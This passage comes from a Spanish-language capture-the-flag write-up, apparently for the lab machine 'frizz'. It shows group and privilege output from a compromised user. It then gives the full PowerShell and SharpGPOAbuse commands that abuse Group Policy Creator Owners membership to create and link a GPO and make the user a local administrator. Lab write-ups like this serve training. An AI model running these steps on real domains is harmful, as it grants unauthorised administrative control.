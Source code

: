```powershell
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

De aquí vemos que al formar parte del grupo `frizz\Grupo Policy Creator Owners` podemos ver que tenemos permisos para crear GPOs.

Aprovechando esto pues, nos podemos asignar una nueva GPO como administradors de la máquina y de esta manera tener acceso a todos los archivos dentro de la máquina.

```powershell
New-GPO -Name "Root"
```

Creamos la nueva GPO y la añadimos a nivel de dominio.

```powershell
New-GPLink -Name "Root" -Target "OU=Domain Controllers,DC=frizz,DC=htb"
```

Ahora mediante una herramienta podemos abusar de esta GPO. La herramienta en cuestion es [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse).

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName Root
```

Forzamos la actualización de la GPO.

```powershell
gpupdate /force
```
